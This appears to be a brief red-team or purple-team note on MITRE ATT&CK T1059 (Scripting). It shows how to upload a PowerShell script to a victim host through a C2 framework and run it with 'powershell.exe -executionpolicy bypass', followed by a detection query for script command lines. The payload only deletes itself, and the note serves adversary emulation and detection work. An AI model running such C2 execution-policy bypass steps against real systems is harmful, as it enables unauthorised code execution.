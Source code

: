 # [Scripting](https://attack.mitre.org/techniques/T1059/)

## Exploit syntax:
1. Create the .ps1
    ```
    sudo vi /var/posh/<project>/payloads/dumbBug.ps1
    ```

2. Paste in the following
    ```powershell
    remove-item C:\NeverLeftShoneys.ps1
    ```

3.  In posh:

    ```sh
    upload-file #Will ask for file to upload

    dumbBug.ps1 #first prompt = Source of file to upload
    
    C:\NeverLeftShoneys.ps1 #second prompt = Location to upload file too on victim
    ```
4. Execute the script
    ```
    sharpps powershell.exe -executionpolicy bypass C:\NeverLeftShoneys.ps1
    ```

---
## Detection Technique:
* Investigate scripts run on the network, powershell, batch, bash, python, any scripting language.
    * process.command_line: \*.bat OR process.command_line: \*.sh OR process.command_line: \*.ps1 ………

